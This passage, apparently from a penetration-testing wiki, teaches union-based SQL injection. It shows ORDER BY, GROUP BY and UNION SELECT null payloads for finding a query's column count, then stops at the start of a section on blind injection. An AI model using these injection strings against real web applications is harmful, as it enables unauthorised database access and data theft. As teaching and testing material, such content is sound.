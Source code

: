 ## Exploiting Union Based <a href="#exploiting-union-based" id="exploiting-union-based"></a>

### Detecting number of columns <a href="#detecting-number-of-columns" id="detecting-number-of-columns"></a>

If you can see the output of the query this is the best way to exploit it. First of all, wee need to find out the **number** of **columns** the **initial request** is returning. This is because **both queries must return the same number of columns**. Two methods are typically used for this purpose:

### **Order/Group by**

To determine the number of columns in a query, incrementally adjust the number used in **ORDER BY** or **GROUP BY** clauses until a false response is received. Despite the distinct functionalities of **GROUP BY** and **ORDER BY** within SQL, both can be utilized identically for ascertaining the query's column count.



```sql
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```



```sql
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```

### **UNION SELECT**

Select more and more null values until the query is correct:



```sql
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```

_You should use `null`values as in some cases the type of the columns of both sides of the query must be the same and null is valid in every case._

## Exploiting Blind SQLi <a href="#exploiting-blind-sqli" id="exploiting-blind-sqli"></a>

In this case you cannot see the results of the query or the errors, but you can **distinguished** when the query **return** a **true** or a **false** response because there are different contents on the page. In this case, you can abuse that behaviour to dump the database char by char:
